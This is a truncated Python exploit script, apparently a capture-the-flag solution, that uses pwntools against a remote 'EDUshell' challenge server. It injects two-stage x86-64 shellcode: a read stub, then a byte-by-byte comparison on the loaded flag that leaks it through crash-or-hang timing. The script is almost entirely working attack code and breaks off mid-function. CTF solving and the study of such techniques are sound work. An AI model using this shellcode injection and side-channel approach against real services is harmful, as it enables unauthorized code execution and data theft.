 * exploit:

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'

timeout = 0.3
def check(offset, target):
    def loadflag():
        p.sendlineafter(b'SHELL $ ', b'loadflag')
    
    def _exec(payload):
        p.sendline(b'exec ' + payload)
    
    # p = process('./EDUshell')
    p = remote('eofqual.zoolab.org', 10101)
    # p = remote('172.20.0.1', 10101)
    
    loadflag()
    
    sleep(timeout)
    sc = asm('''
        mov rsi, rdx
        xor rdx, rdx
        xor rdi, rdi
        xor rax, rax
        mov dx, 0x1234
        syscall
    ''')
    
    _exec(sc)
    
    sleep(timeout)
    sc2 = asm('''
        mov rcx, rbx
        add rcx, ''' + str(offset) + '''
        mov al, BYTE PTR [rcx]
        cmp ax, ''' + str(target) + '''
        jb SAFE
        xor rax, rax
        inc rax
        syscall
    SAFE:
        mov rsi, rdx
        xor rdx, rdx
        xor rdi, rdi
        xor rax, rax
        mov dx, 0x1234
        syscall
    LOOP:
        nop
        nop
        nop
        jmp LOOP
    ''')

    try:
        # raw_input('>')
        p.sendline(sc + sc2)
        # raw_input('>')
        sleep(timeout)
        p.sendline(b'GG')
        p.recv(5, timeout=timeout)
```